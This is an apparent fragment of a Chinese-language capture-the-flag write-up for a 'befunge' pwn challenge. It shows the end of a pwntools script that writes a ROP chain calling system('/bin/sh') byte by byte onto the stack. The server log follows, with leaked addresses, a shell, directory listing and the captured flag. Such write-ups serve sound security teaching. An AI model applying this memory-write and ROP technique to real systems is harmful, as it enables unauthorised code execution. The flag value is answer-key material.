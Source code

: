 ```python
    io.sendline(str(val))
    io.sendline(str(y+i))
    io.sendline(str(x_1))
    io.sendline(str(50000))
    io.sendline(str(x_2))

edit(offset, prdir)
edit(offset+8, binsh_addr)
edit(offset+16, system_addr)

io.interactive()
```

成功与服务器交互

```bash
[+] 11470264
[+] 27054
[+] 56
[+] 0x56434fd4f20c
[+] round0: val:0xc | y:56 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217ed8
[+] round1: val:0xf2 | y:57 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217ed9
[+] round2: val:0xd4 | y:58 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217eda
[+] round3: val:0x4f | y:59 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217edb
[+] round4: val:0x43 | y:60 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217edc
[+] round5: val:0x56 | y:61 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217edd
[+] round6: val:0x0 | y:62 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217ede
[+] round7: val:0x0 | y:63 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217edf
[+] 11470264
[+] 27054
[+] 64
[+] 0x7f9040bcfd57
[+] round0: val:0x57 | y:64 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217ee0
[+] round1: val:0xfd | y:65 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217ee1
[+] round2: val:0xbc | y:66 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217ee2
[+] round3: val:0x40 | y:67 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217ee3
[+] round4: val:0x90 | y:68 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217ee4
[+] round5: val:0x7f | y:69 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217ee5
[+] round6: val:0x0 | y:70 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217ee6
[+] round7: val:0x0 | y:71 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217ee7
[+] 11470264
[+] 27054
[+] 72
[+] 0x7f9040a88390
[+] round0: val:0x90 | y:72 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217ee8
[+] round1: val:0x83 | y:73 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217ee9
[+] round2: val:0xa8 | y:74 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217eea
[+] round3: val:0x40 | y:75 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217eeb
[+] round4: val:0x90 | y:76 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217eec
[+] round5: val:0x7f | y:77 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217eed
[+] round6: val:0x0 | y:78 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217eee
[+] round7: val:0x0 | y:79 | x_1:11470264 | x_2:27054 | write at:0x7ffdd4217eef
[*] Switching to interactive mode
Too many steps. Is there any infinite loops?
$ ls
befunge
bin
dev
flag
lib
lib32
lib64
$ cat flag
cyberpeace{98a98f0ba1ad006fb670b684a2c0c129}
```